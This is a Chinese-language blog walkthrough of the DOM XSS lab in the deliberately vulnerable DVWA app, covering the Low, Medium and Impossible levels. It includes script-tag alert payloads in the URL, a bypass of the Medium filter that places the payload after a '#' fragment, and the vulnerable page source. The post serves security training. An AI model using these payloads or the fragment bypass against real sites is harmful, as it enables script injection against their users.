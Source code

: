 ```yaml
---
layout: post
title: "DVWA XSS DOM"
description: ""
date: 2023-07-11
categories:
  - DVWA
  - DVWA_XSS
author: ""
tags: ['DVWA', 'XSS']
---
```




# DVWA XSS DOM
###### tags: `DVWA`


dom的xss 就是代碼插入 dom 裡面。



<br/>

如此一來能分析前台代碼更容易被破解。
<br/>
<br/>


# Low

完全沒保護 按下select 看 url 


```url=
http://www.dvwa.com/vulnerabilities/xss_d/?default=English
```

改成

```
http://www.dvwa.com/vulnerabilities/xss_d/?default=111111

```

發現 option 中的選項被改成了 111111

也就是說我們能直接改變dom 元素。


```
<script>alert('xss')</script>
```

這邊browser 自動 urlencode 也可以通過。
```
http://www.dvwa.com/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(%27xss%27)%3C/script%3E
```
<br/><br/>




# Medium

後端有判斷了 get 請求的參數 default

code:
```php=
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?> 
```

過慮了字串:
只要有這個字串出現一次就跳轉成  header ("location: ?default=English");

```
大小寫 失敗
<Script>alert(1)</Script>


雙寫也失敗，因為他不是轉為空，而是判斷有沒有出現
<scr<script>ipt>alert(123)</scr<script>ipt>

```




分析一下代碼:
```javascript=
<select name="default">
   <script>
      if (document.location.href.indexOf("default=") >= 0) {
      	var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
        
          
        //關鍵
      	document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
      	document.write("<option value='' disabled='disabled'>-</option>");
      }
          
      document.write("<option value='English'>English</option>");
      document.write("<option value='French'>French</option>");
      document.write("<option value='Spanish'>Spanish</option>");
      document.write("<option value='German'>German</option>");
   </script>
   <option value="English">English</option>
   <option value="French">French</option>
   <option value="Spanish">Spanish</option>
   <option value="German">German</option>
</select>
```


看起來很屌，但是有一個招

### #號
* 作為一個html網頁錨的定位功能，#號後面的資料是不會進到後台的。


小坑:

* 如果你url 已經有default=English  此時加入#1111111會失敗，

* 此時按enter 是在定位html 錨

原因是#號後面輸入東西 enter 是在定位網頁的錨點，而且就算後端的判斷看到有English 就直接break了



```url=
www.dvwa.com/vulnerabilities/xss_d/?default=English#1111111
```


* 我們必須發請求到後台，後台發現空資料轉預設English，然後前台重新幫我們產生頁面，才能成功

* 後台判斷發現為跳轉成 header ("location: ?default=English");
而此時前端頁面的腳本才執行 English#1111111 加入dom元素


```
www.dvwa.com/vulnerabilities/xss_d/?default=#111111111
```


了解後，連閉合都不用:
```
www.dvwa.com/vulnerabilities/xss_d/?default=#<script>alert('xss')</script>
```

<br/><br/>



# Impossible


後台:
不需要做任何事情，保護在客戶端處理
dom xss 既然後端無法完全處理，那就只能在前台防禦
```php=
<?php

# Don't need to do anything, protction handled on the client side

?> 
```




decodeURI(lang) 變成了 (lang)，所有輸入最後都會被url encode 所以防禦了

```javascript=
<select name="default">
   <script>
      if (document.location.href.indexOf("default=") >= 0) {
      	var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
      	document.write("<option value='" + lang + "'>" + (lang) + "</option>");
      	document.write("<option value='' disabled='disabled'>----</option>");
      }
          
      document.write("<option value='English'>English</option>");
      document.write("<option value='French'>French</option>");
      document.write("<option value='Spanish'>Spanish</option>");
      document.write("<option value='German'>German</option>");
   </script>
   <option value="English">English</option>
   <option value="French">French</option>
   <option value="Spanish">Spanish</option>
   <option value="German">German</option>
</select>

```

